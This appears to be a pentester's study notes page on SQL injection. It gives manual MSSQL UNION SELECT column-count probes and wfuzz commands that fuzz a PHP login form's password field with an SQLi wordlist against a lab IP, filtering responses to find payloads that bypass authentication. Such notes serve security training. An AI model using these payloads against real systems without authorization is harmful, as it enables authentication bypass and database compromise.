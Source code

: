 ```yaml
---
description: 300-348
---
```


# SQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings GitHub Repo
{% endembed %}

{% embed url="https://www.securityidiots.com/Web-Pentest/SQL-Injection/" %}
SQLi Logic
{% endembed %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!

## Semi-Automatic SQLi

{% embed url="https://www.youtube.com/watch?v=c2OFrDVb3EM&t=2558s" %}
Go to 45 mins
{% endembed %}

1. Set URL variable ($URL) to your target you are attacking

```
export URL=http://192.168.1.181/index.php
echo $URL
```

&#x20; 2\. Find the backend processing for the handling of your input in the web application

* View source code
* Search for form elements they look like this: <mark style="color:yellow;">\<form</mark>
* Locate the script or action that it takes within that line of code it should be executing a php file
  * i.e. if it is <mark style="color:yellow;">checklogin.php</mark>
  * Make it your URL variable

```
export URL="http://192.168.1.181:80/checklogin.php"
```

&#x20;  3\. Locate quick-SQLi.txt, it should be something like: usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

&#x20;  4\. Load up wfuzz:

* Check <mark style="color:yellow;">\<input name</mark>, in this case, it is <mark style="color:yellow;">myusername</mark>

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 "$URL"
```

* You may get get a lot back
* Look at the chars
* Go back to the web app and manually authenticate using that payload and username
* Go through them until you get an error
* Determine what a valid and invalid error is depending on char size
* Be sure to block out the invalid errors in wfuzz as seen below
* For example, these chars are 109 and 444

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 --hh 109,444 "$URL"
```

* Anything you get now should be attempted manually once more in the browser
